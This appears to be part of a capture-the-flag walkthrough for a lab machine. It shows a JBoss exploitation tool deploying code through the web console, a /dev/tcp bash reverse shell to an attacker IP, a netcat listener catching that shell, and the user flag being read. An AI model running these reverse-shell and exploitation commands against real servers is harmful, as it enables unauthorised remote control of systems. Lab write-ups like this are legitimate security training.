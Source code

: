 ```bash
 * Do you want to try to run an automated exploitation via "web-console" ?
   If successful, this operation will provide a simple command shell to execute 
   commands on the server..
   Continue only if you have permission!
   yes/NO? yes

* Sending exploit code to http://TargetIP:8080. Please wait...

 * Successfully deployed code! Starting command shell. Please wait...

# ----------------------------------------- # LOL # ----------------------------------------- #

 * http://TargetIP:8080: 

# ----------------------------------------- #

 * For a Reverse Shell (like meterpreter =]), type the command: 

   jexremote=YOUR_IP:YOUR_PORT

   Example:
     Shell>jexremote=192.168.0.10:4444

   Or use other techniques of your choice, like:
     Shell>/bin/bash -i > /dev/tcp/192.168.0.10/4444 0>&1 2>&1
   
   And so on... =]

# ----------------------------------------- #

...
Shell> /bin/bash -i > /dev/tcp/TargetIP/4444 0>&1 2>&1
```

<img width="601" height="82" alt="image" src="https://github.com/user-attachments/assets/428b3736-ef17-453f-8893-c827da1b262d" />

<br>

<img width="585" height="139" alt="image" src="https://github.com/user-attachments/assets/ebef30e7-d0c9-47fe-bd8a-b436d8df0c5b" />

```bash
:~/JacobTheBoss# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on TargetIP 50640
bash: no job control in this shell
[jacob@jacobtheboss /]$ whoami
whoami
jacob
[jacob@jacobtheboss /]$ pwd
pwd
/
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```
